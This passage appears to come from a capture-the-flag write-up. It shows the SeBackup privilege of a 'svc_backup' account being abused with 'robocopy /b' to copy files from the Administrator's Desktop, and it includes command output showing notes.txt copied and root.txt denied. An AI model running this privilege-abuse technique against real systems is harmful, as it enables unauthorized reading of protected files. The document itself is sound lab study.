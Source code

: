 ![Victim: svc_backup](https://custom-icon-badges.demolab.com/badge/Victim-svc%5F_backup-64b5f6?logo=windows11&logoColor=white)

We can abuse the `SeBackup` privilege in order to retrieve files from the Administrator Desktop
using `robocopy`. Using robocopy, we are able to retrieve a `notes.txt` but are denied access on
`root.txt`.

`dir C://Users/Administrator/Desktop`:
```
    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   4:36 PM            447 notes.txt ←
-a----        11/5/2020   8:38 PM             32 root.txt ←
```

`robocopy /b C:\Users\Administrator\Desktop\ C:\Users\svc_backup\Documents`:
```
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Monday, November 11, 2024 1:26:11 PM
   Source : C:\Users\Administrator\Desktop\
     Dest : C:\Users\svc_backup\Documents\

    Files : *.*

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           3    C:\Users\Administrator\Desktop\
        *EXTRA Dir        -1    C:\Users\svc_backup\Documents\My Music\
        *EXTRA Dir        -1    C:\Users\svc_backup\Documents\My Pictures\
        *EXTRA Dir        -1    C:\Users\svc_backup\Documents\My Videos\
            Newer                    282        desktop.ini
  0%
100%
            New File                 447        notes.txt ←
  0%
100%
            New File                  32        root.txt
2024/11/11 13:26:11 ERROR 5 (0x00000005) Copying File C:\Users\Administrator\Desktop\root.txt
Access is denied. ←
```
❌

`dir`:
```
    Directory: C:\Users\svc_backup\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   4:36 PM            447 notes.txt ←
```
